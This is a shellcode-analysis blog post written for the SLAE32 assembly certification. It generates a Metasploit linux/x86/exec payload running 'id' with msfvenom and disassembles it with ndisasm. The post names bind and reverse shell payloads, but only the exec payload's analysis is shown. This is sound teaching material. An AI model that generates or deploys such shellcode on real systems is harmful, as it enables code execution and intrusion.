 ```yaml
---
title: SLAE32 - Assignment#5 [Shellcode Analysis]
author: bigb0ss
date: 2021-04-25 23:53:00 +0800
categories: [SLAE32, Assignment_5_Analysis]
tags: [slae32, assembly, x86, Shellcode Analysis]
image: /assets/img/post/slae32/slae32.png
---
```


<b>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:</b>

<b>http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/</b>

<b>Student ID: SLAE-1542</b>

[SLAE32 Assignemt#5 Github](https://github.com/bigb0sss/SLAE32)

# Assignement #5 
* Take up at least 3 shellcode samples created using msfpayload for linux/x86
* Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
* Present your analysis

# Msfpayload Shellcode Analysis
Today I will analyze the following shellcodes generated by the msfpayload, specifically for linux/x86:
* <b>linux/x86/exec</b> - Execute an arbitrary command
* <b>linux/x86/shell/bind_tcp</b> - Spawn a command shell (staged). Listen for a connection (Linux x86)
* <b>linux/x86/shell/reverse_tcp</b> - Spawn a command shell (staged). Connect back to the attacker

# 1) linux/x86/exec
This msfpayload will execute an arbitrary command that you add while creating a payload. Let's create the payload with the linux command `id`.

```bash
# msfvenom -p linux/x86/exec CMD=id -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 38 bytes
Final size of c file: 185 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x03\x00\x00\x00\x69"
"\x64\x00\x57\x53\x89\xe1\xcd\x80";
```

Then, we will use `ndisasm` - the Netwide Disassembler - to disassemble the created shellcode. 

```console
# echo -ne "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x03\x00\x00\x00\x69\x64\x00\x57\x53\x89\xe1\xcd\x80" | ndisasm -b 32 -

00000000  6A0B              push byte +0xb
00000002  58                pop eax
00000003  99                cdq
00000004  52                push edx
00000005  66682D63          push word 0x632d
00000009  89E7              mov edi,esp
0000000B  682F736800        push dword 0x68732f
00000010  682F62696E        push dword 0x6e69622f
00000015  89E3              mov ebx,esp
00000017  52                push edx
00000018  E803000000        call 0x20
0000001D  696400575389E1CD  imul esp,[eax+eax+0x57],dword 0xcde18953
00000025  80                db 0x80


### echo:
-n : Do not output the trailing newline
-e : Enable interpretation of backslash escapes

### ndisasm
-b : Set the processor mode
```

Let's analyze the disassembled payload.

![image](/assets/img/post/slae32/assignment5/01.png)



<b>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:</b>

<b>http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/</b>

<b>Student ID: SLAE-1542</b>

[SLAE32 Assignemt#5 Github](https://github.com/bigb0sss/SLAE32)